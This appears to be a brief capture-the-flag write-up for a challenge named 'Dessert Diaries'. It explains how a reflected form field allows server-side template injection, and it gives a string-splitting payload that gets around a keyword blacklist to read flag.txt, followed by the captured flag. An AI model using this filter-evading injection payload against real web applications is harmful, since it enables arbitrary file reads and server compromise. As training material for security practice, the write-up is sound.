 **Challenge Name**: Dessert Diaries

# Writeup
In this challenge we can find there is a `Share recipe` form at the end of the page . whatever name we provide is being reflected. hence trying `{{7*7}}` confirms the presence of SSTI.
However, common payloads like `__class__` are blocked due to blacklists. Therefore, we can use the `url_for` payload or `request` payload


Payload: `{{url_for['__gl'+'obals__']['__buil'+'tins__']['op'+'en']('./flag.txt')['re'+'ad']()}}`

Flag: `inctfj{sSt1_t0_w1n_th3_bl0g??}`

